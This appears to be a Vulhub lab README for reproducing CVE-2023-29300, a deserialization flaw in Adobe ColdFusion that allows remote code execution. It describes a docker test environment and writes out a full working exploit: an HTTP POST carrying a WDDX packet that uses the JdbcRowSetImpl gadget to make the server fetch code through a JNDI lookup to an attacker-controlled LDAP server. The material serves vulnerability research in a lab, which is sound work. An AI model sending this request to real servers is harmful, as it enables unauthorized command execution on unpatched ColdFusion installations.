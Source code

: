 # Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion versions 2018 Update 16 (and earlier), 2021 Update 6 (and earlier) and 2023.0.0.330468 (and earlier) are affected by a deserialization of untrusted data vulnerability. Attacker is able to call arbitrary setter function and execute arbitrary commands eventually.

References:

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## Vulnerable environment

Start a Adobe ColdFusion 2018.0.15:

```
docker compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

To exploit this issue, you have to find a valid gadget to execute arbitrary code in ColdFusion server. The most common gadget is `com.sun.rowset.JdbcRowSetImpl` that uses the JNDI injection to execute the command.

We utilize the [Java Chains](https://github.com/vulhub/java-chains) tool for vulnerability reproduction. To get started with Java Chains, please visit the [Quick Start](https://java-chains.vulhub.org/docs/guide) guide.  Then, following the instructions in the screenshot below, generate a payload based on the `CommonsBeanutils1` exploit chain.

![](1.png)

Then, send the following request to ColdFusion server (replace with your LDAP server address):

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

As you can see, the `touch /tmp/success` is executed successfully:

![](2.png)
